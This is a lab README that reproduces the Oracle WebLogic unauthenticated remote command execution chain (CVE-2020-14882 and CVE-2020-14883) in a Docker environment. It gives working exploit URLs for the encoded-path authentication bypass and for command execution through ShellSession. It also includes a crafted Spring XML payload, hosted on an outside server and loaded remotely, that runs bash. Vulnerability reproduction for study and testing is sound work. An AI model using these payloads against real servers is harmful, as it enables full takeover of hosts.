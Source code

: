 # Weblogic Pre-Auth Remote Command Execution (CVE-2020-14882, CVE-2020-14883)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle WebLogic Server is the industry leading application server for building enterprise applications using Java EE standards, and deploying them on a reliable, scalable runtime with low cost of ownership.

In [Oracle Critical Patch Update Advisory - October 2020](https://www.oracle.com/security-alerts/cpuoct2020traditional.html), Oracle fixed two security vulnerabilities submitted by security researcher @Voidfyoo from Chaitin Tech, CVE-2020-14882 and CVE-2020-14883.

CVE-2020-14882 allows remote users to bypass the authentication in administrator console component, and CVE-2020-14883 allows authencated user to execute any command on administrator console component. Using a chain of these two vulnerabilities, unauthenticated remote attacker can execute arbitrary commands on the Oracle WebLogic server over HTTP and take complete control of the host.

References:

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## Environment Setup

Start a Weblogic server 12.2.1.3 by executing the following command:

```
docker compose up -d
```

After the startup is complete, visit `http://your-ip:7001/console` to view the administrator console login page.

## Exploit

Using this URL to bypass the authentication of Console component:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![](1.png)

At this moment, you don't have permission to upload a webshell:

![](2.png)

The second vulnerability, CVE-2020-14883, there are two ways to exploit, one is through `com.tangosol.coherence.mvel2.sh.ShellSession`, and the other is through `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`.

Visit the following URL to chain 2 vulnerabilities and execute commands from `com.tangosol.coherence.mvel2.sh.ShellSession`:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

`touch /tmp/success1` has been successfully executed inside the container:

![](3.png)

This method of exploit can only be used in Weblogic 12.2.1 and above, because 10.3.6 doesn't have the class `com.tangosol.coherence.mvel2.sh.ShellSession`.

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` is a more common exploit, which was first introduced in CVE-2019-2725 and is useable for any Weblogic versions.

To exploit the `FileSystemXmlApplicationContext`, you need to make a crafted XML file and serve it on a server that Weblogic can access, such as `http://example.com/rce.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Then through the following URL, Weblogic would load this XML and execute the commands in it:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

![](4.png)

The shortcomings of this exploit is that, it requires the Weblogic server to be able to access the malicious XML.
